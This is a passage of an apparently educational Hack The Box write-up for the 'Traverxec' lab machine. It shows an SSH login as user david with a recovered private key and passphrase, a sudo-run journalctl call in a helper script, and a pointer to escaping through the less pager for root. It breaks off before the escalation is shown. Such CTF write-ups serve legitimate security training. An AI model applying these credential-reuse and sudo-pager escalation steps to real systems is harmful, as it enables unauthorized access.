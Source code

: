Now using that ssh key and the password "hunter" we SSH in as david.

```
root@kali:~/HTB/Boxes/Traverxec# ssh -i home/david/.ssh/id_rsa david@10.10.10.165
Enter passphrase for key 'home/david/.ssh/id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Tue Nov 19 12:44:42 2019 from 10.10.14.13
david@traverxec:~$ ls /home/david/
bin  public_www  user.txt
david@traverxec:~$ 
```

as we can see we now have access to the user flag

<h3 align="center">On to Root</h3>
We see a "bin" folder in the user directory, if we examine the contents we find a script named "server-stats.sh", which if we cat shows us

```
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Examining and running it we see it's basically just outputting a header (the other file in the bin directory) and a bit of information about the server. The last line of this script is the most important. We see it is running sudo and then journalctl, this means that journalctl is running with elevated privileges so if we can can figure out a way to bend that to our will we will have root privileges. However we don't seem to be able to change any of the arguments. When we run anything other than "sudo journalctl -n5 -unostromo.service" we are asked to supply a password.

If we look at GTFObins for journalctl (https://gtfobins.github.io/gtfobins/journalctl/) we see an important bit of information.

![gtfobins](/assets/img/walkthroughs/traverxec_gtfobins.png)

So journalctl is using **less** to write to the screen, and if we follow the link we see that we can break out of less into an interactive shell.
